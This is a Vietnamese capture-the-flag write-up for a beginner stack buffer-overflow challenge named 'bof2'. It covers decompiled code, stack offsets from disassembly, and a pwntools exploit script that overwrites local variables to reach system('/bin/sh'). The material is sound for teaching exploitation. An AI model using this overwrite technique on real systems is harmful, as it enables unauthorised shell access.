

**1. Tìm lỗi**

Chạy thử file ta có:



Dùng lệnh 'file' để kiểm tra:

```
bof2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f1416e8c63ea6cff8924f86a8125db99c1023931, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta được

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-30h] BYREF
  __int64 v5; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  __int64 v7; // [rsp+20h] [rbp-10h]
  int v8; // [rsp+2Ch] [rbp-4h]

  v8 = 0;
  v7 = 0LL;
  v6 = 0LL;
  v5 = 0LL;
  init(argc, argv, envp);
  printf("> ");
  v8 = read(0, buf, 0x30uLL);
  if ( buf[v8 - 1] == 10 )
    buf[v8 - 1] = 0;
  printf("a = %ld\n", v7);
  printf("b = %ld\n", v6);
  printf("c = %ld\n", v5);
  if ( v7 == 0x13371337 && v6 == 0xDEADBEEFLL && v5 == 0xCAFEBABELL )
    system("/bin/sh");
  return 0;
}
```

Đoạn mã khai báo một mảng buf có kích thước 16 byte và các biến v5, v6, v7 và v8. Biến v8 được khởi tạo bằng 0 và các biến còn lại được khởi tạo bằng 0.

Hàm read được gọi để đọc dữ liệu từ bàn phím và lưu trữ vào mảng buf. Tham số đầu tiên là số tham chiếu đến bàn phím (0), tham số thứ hai là mảng buf và tham số thứ ba là kích thước tối đa của dữ liệu được đọc (0x30uLL = 48 byte) nhưng biến buf được khai báo 16 byte -> Có lỗi bof

Nếu ký tự cuối cùng trong chuỗi được nhập là ký tự xuống dòng (10), nó sẽ được thay thế bằng ký tự NULL (0).

Nếu các biến v5, v6 và v7 có giá trị tương ứng là 0xCAFEBABELL, 0xDEADBEEFLL và 0x13371337, hàm system được gọi.

**2. Ý tưởng**

Có lỗi bof nên nhập hết biến buf bằng byte rác đến các biến v5, v6, v7 rồi chèn các giá trị tương ứng vào.

**3. Khai thác**

```
   0x0000000000401223 <+70>:    lea    rax,[rbp-0x30]
   0x0000000000401227 <+74>:    mov    edx,0x30
   0x000000000040122c <+79>:    mov    rsi,rax
   0x000000000040122f <+82>:    mov    edi,0x0
   0x0000000000401234 <+87>:    call   0x4010a0 <read@plt>
```

Biến buf đang cách rbp là 0x30 byte

```
   0x00000000004012a2 <+197>:   cmp    QWORD PTR [rbp-0x10],0x13371337
   0x00000000004012aa <+205>:   jne    0x4012ce <main+241>
   0x00000000004012ac <+207>:   mov    eax,0xdeadbeef
   0x00000000004012b1 <+212>:   cmp    QWORD PTR [rbp-0x18],rax
   0x00000000004012b5 <+216>:   jne    0x4012ce <main+241>
   0x00000000004012b7 <+218>:   mov    eax,0xcafebabe
   0x00000000004012bc <+223>:   cmp    QWORD PTR [rbp-0x20],rax
   0x00000000004012c0 <+227>:   jne    0x4012ce <main+241>
```

Các biến v5, v6,v7 cần so sánh đang cách rbp là 0x20, 0x18, 0x10 với các giá trị tương ứng để thực thi system là: 0xcafebabe, 0xdeadbeef, 0x13371337.

Ta cần viết payload tương ứng với: 0x30->0x20 là byte rác, 0x20->0x18 là 0xcafebabe, 0x18->0x10 là 0xdeadbeef, 0x10->đâu đó không biến là 0x13371337. Từ 0x20 -> 0x18 và 0x18 -> 0x10 đêu 8 byte nên khi p64 mấy giá trị đó cũng chứa đủ 8 byte rồi.

Ta có script như sau:

```
from pwn import *

r = process('./bof2')

payload = b'a'*(0x30-0x20) + p64(0xcafebabe) + p64(0xdeadbeef) + p64(0x13371337)
r.sendafter(b'> ', payload)
r.interactive()
```

**4. Lấy flag**


